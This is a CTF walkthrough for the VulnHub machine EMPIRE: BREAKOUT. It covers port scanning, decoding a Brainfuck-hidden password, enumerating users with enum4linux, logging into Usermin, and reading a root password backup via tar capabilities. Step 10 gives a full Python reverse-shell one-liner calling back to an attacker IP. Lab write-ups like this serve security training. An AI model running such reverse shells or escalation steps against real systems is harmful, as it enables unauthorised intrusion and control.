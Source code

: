 # EMPIRE: BREAKOUT 

## Description

This walkthrough guides you through the EMPIRE: BREAKOUT CTF machine, an easy-level challenge where you need to obtain the user.txt and root.txt flags.

### Name: EMPIRE: BREAKOUT

### Author: icex64 & Empire Cybersecurity

### Link: [EMPIRE: BREAKOUT](https://www.vulnhub.com/entry/empire-breakout,751/)

### Tools Used: 
- netdiscover
- enum4linux
- netcat

### Prerequisites: 
Basic knowledge of Linux commands, tar, and Python3

## Walkthrough

### Step 1: Identifying the IP

Use `netdiscover` to identify the IP of the machine: 
```bash
netdiscover -r 192.168.0.0/16
``` 
In my case it is `192.168.141.139` but in your case, the IP is likely different.

![Netdiscover Output](Img/1_netdiscover.png)

### Step 2: Scanning the Ports

Run an nmap scan to discover open ports and services: 
```bash
nmap -A -v -O -T4 192.168.141.139
``` 

Result of Nmap command is :
```bash
PORT      STATE SERVICE     VERSION
80/tcp    open  http        Apache httpd 2.4.51 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.51 (Debian)
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
10000/tcp open  http        MiniServ 1.981 (Webmin httpd)
|_http-favicon: Unknown favicon MD5: CE3F4BC6DC90E29810C4B9B3973A561D
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: 200 &mdash; Document follows
20000/tcp open  http        MiniServ 1.830 (Webmin httpd)
|_http-favicon: Unknown favicon MD5: FF62B94E9B0E30DF8F1319D19AE55844
|_http-server-header: MiniServ/1.830
|_http-title: 200 &mdash; Document follows
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
MAC Address: 00:0C:29:86:DA:D5 (VMware)
```

The result shows that ports 80, 139, 445, 10000, and 20000 are open.

### Step 3: Exploring Port 80

Visit the IP in your browser to access the webpage, And it shows default page of apache. But by visiting source code of page i found a text.

![Web Page Source Code](Img/2_source_apache.png)

### Step 4: Decrypting the Hash

To decrypt this encrypted hash first we have to identify the hash type. use this website to identify the hash: [`Cipher Identifier`](https://www.dcode.fr/cipher-identifier).

![Identify Hash](Img/3_Identify_language.png)

We see that the hash are in Brainfuck language. To decrypt this hash use this website: [`Decrypt Hash`](https://www.dcode.fr/brainfuck-language).

![Decrypt hash](Img/4_Crack_hash.png)

### Step 5: Accessing Webmin

Here you see we have text `.2uqPEfj3D<P'a-3`, it might be a password.

Now we have other ports open so i just tried to visit port `10000` by visiting: 
```
https://192.168.141.139:10000
``` 
I see a login page of `webmin`.

![Webmin](Img/5_Usermin_page.png)

Webmin is a popular hosting platform to host website, but user can login with `usermin` and this is on port `20000`. Try `usermin` on `https://192.168.141.139:20000` for User access.

Possibly we have password, so we have to find username and it might possible that user of machine is username.


### Step 6: Finding User

Use `enum4linux` to find the user of the machine: 
```bash
enum4linux -a 192.168.141.139
``` 
![Enum4linux](Img/6_Find_user.png)

Here you see we discover the user `cyber`.


### Step 7: Accessing Usermin

Use the discovered credentials `cyber : .2uqPEfj3D<P'a-3` to login to `usermin` on: 
```
https://192.168.141.139:20000
```

![Usermin](Img/7_Login.png)

### Step 8: Obtaining User Flag

Explore the user dashboard and click the shell icon to access a shell.

![Shell](Img/8_Usermin_page.png)

In the shell i founded our first flag in `user.txt` and it also have tar file which is used to make archives or extract it.
![User Flag](Img/9_User_flag.png)

### Step 9: Obtaining Root Password

After some findings i found `.old_pass.bak` in `/var/backups/` directory, this file have a password of a root.
![Old Pass](Img/10_Old_pass.png)

We don't have access to that file so we can archive that file and extract it on our users directory.

Now go back to the home directory of `cyber` user, we have to know about tar file what permissions it has. Use 
```bash
getcap tar
```
to identify that tar has all permissions or not.

![Getcap](Img/11_getcap.png)

We have full permission for tar file.

Now use this commands to Archive that file into current directory and extract it.
```bash
./tar -czf pass.tar.gz /var/backups/.old_pass.bak
./tar -xzf pass.tar.gz
```
![Root Password](Img/12_Root_password.png)

Go to the `/var/backups` directory and just cat the file `.old_pass.bak`. We have the password of root: `Ts&4&YurgtRX(=~h`.

### Step 10: Getting Reverse Shell

Here we can not be able to access the root account on webshell so we have to get reverse shell. To do this open listener on kali machine: 
```bash
nc -lvp 1234
```

Use this python command on web-shell:
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR_IP>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Don't forgot to replace `<YOUR_IP>` with you machine's ip.

![Reverse Shell](Img/13_Get_reverse_shell.png)

We have reverse shell.


### Step 11: Obtaining Root Flag

Use this command to get `root` access: 
```bash
su root
```
Use the obtained password to log in as root.
`root : Ts&4&YurgtRX(=~h`

![Root shell](Img/14_Login_root.png)


Access the root directory using `cd ../../root/` and obtain the root flag: 
```bash
cat rOOt.txt
```

![Root Flag](Img/15_root_flag.png)

